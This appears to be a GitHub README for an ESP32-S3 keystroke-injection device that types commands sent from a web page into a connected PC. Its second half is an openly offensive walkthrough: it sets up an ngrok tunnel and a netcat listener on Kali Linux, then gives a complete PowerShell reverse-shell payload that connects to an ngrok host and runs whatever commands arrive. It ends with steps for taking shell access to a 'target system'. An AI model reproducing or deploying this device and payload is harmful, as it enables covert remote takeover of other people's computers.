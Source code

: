 # PROJECT_K

**KEYSROKE INJECTION
MODULE USING ESP32
HID EMULATION DEVICE**
**this device will type command what we give from web server and run this script on the system**



first install aurdino ide software on window 
add libraries which are needed<br/> 
#include "Arduino.h"<br/>
#include "USB.h"<br/>
#include "USBHIDKeyboard.h"<br/>
#include <WiFi.h><br/>
#include <WebServer.h><br/>


  1. Open Arduino IDE.
  2. Go to `Tools` > `Board` > `Boards Manager`.
  4. Search for "ESP32" and install the package by Espressif Systems.
  5. goto tools in main page of ide.
  6. click on boards
  7. then select esp32 s3 boards.
  8. copy and paste code which is provided on github repo.
  10. change wifi password to your wifi settings.
  11. change payload if needed
  12. Connect the ESP32-S3 Mini to Your Computer

    - Use a USB cable to connect the ESP32-S3 Mini to your computer.

    - If the device is not recognized, you may need to install the appropriate USB-to-UART bridge drivers. Common drivers include:
  12. Select the Correct Port

    - In the Arduino IDE, navigate to `Tools` > `Port`, and select the port corresponding to your ESP32-S3 Mini device.
  13. Upload the Sketch

    - Click the upload button (right-pointing arrow) in the Arduino IDE to compile and upload the sketch to your device.

    **Note**: Some users have reported issues when uploading code to the ESP32-S3 Mini. If you encounter such problems, you might need to manually set the device to bootloader mode:

    - Press and hold the `BOOT` button on the device.

    - While holding the `BOOT` button, press the `RESET` button once.

    - Release the `BOOT` button.


  ## Connecting to Wi-Fi ##

    -  now plugin the device into pc/laptop. 
    -  you get ip address of the device connnected to wifi in serial monitor. copy the ip address from it and paste on the         broswer search bar.
    -  then press enter.
    -  then a local webpage will open on broswer. webpage will look like the image shown below
   ![Alt text](img.jpg)

   
    - now paste your script to execte on powershell window 
    - then click **send** to execute on laptop/pc.

**this is the project keystroke injection module **



## now for advance  hacking we use kali linux, reverse powershell, ngrok server

  ## work to done on kali linux

  1. use kali liux os in one of your system
  2. then we want to install ngrok in the kali linux os
  3. open command prompt in the kali
  4. paste the command

         curl -sSL https://ngrok-agent.s3.amazonaws.com/ngrok.asc \
          | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null \
          && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" \
         | sudo tee /etc/apt/sources.list.d/ngrok.list \
          && sudo apt update \
          && sudo apt install ngrok
  5. now login to accout to ngrok account and copy your authentication TOKEN
  6. now type the command and paste token to login to your account in kali linux.

         ngrok config add-authtoken <TOKEN>

  
  7.we want to setup  server to avalible on public host

        ngrok tcp 1337
        
  8.then we want to setup listner for reverse shell connection

        nc -lvnp 1337

  9. output window will be like

    ngrok                           (Ctrl+C to quit)

    Session Status                online
    Account                       inconshreveable (Plan: Free)
    Version                       3.0.0
    Region                        United States (us)
    Latency                       78ms
    Web Interface                 http://127.0.0.1:4040
    Forwarding                    tcp://0.tcp.in.ngrok.io:15660 -> http://localhost:8080

    Connections                   ttl     opn     rt1     rt5     p50     p90
                                  0       0       0.00    0.00    0.00    0.00


10. we need to copy the ngrok port number it would be like 15660 or other 5 digit number:

        tcp://0.tcp.in.ngrok.io:15660
    

## payload part

1. our payload is a reverse powershell code which makes a powershell connection to the listner. we need to setup ngrok before executing payload.
2. code

        $client = New-Object System.Net.Sockets.TCPClient("0.tcp.in.ngrok.io", 15660)
        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}
        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
        $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()
        }
        $client.Close()
3.now replace 15660 number with latest ngrok server port from this line

     $client = New-Object System.Net.Sockets.TCPClient("0.tcp.in.ngrok.io", 15660)

# Now the final part of hacking
  ##1.  now start ngrok server. <br/>
  ##2.  open broswer and type ip address and click enter.<br/>
  ##3.  now paste payload in textbox and then click send<br/>
  ##4.  In 5 second you will get connetion of target system in kali linux.<br/>
  ##5.  Then click enter. <br/>
  ##6.  now access of powershell has been to the kali linux.<br/>
  ##7.  we can execute so many commands to the system.<br/>
  




    
    
  

    



